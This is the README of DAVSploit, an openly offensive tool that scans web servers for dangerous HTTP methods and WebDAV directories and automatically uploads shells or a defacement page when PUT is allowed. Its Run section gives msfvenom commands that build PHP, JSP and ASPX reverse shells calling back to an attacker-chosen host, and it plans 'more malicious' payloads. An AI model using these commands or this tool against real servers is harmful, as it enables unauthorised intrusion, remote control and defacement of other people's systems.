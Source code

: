 # DAVSploit
DAV Vulnerbility

[DAVSploitV1.2]

<center><img src="https://github.com/darkseid-security/DAVSploit/blob/main/IMG/davsploit.png"></center>


DAVSploit tool is for automating checking for PUT,MOVE,COPY,DELETE,PATCH,CONNECT and TRACE HTTP methods
aswell as automating webdav exploitation.

Features
================
- Automatically checks PUT,MOVE,COPY,DELETE,PATCH,CONNECT and TRACE for webserver
- Automatically checks for web dav directories if they exists and gets HTTP allow methods
- if PUT exits will try to automatically upload a shell
- Built in Server detection, payload that matches server version will be sent
- Three diffrent payload types PHP,JSP,ASPX and HTML
- Colored UI
- HTML payload includes deface web page
- [*New Feature] Vulnerbility scanning for web services


Davsploit V2
==============
- Add more payloads
- Add more webservers to detection list
- Fix false positive with PUT method
- Perform content discovery and create wordlist to scan more directories
- Create more malicious HTML payload


Run
===============
Need payloads generated in directory before runing script

Create a PHP reverse shell
- msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
Create a JSP reverse shell
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f raw > shell.jsp
Create a ASPX reverse shell
- msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<Port> -f aspx > shell.aspx

python3 DAVSploit.py
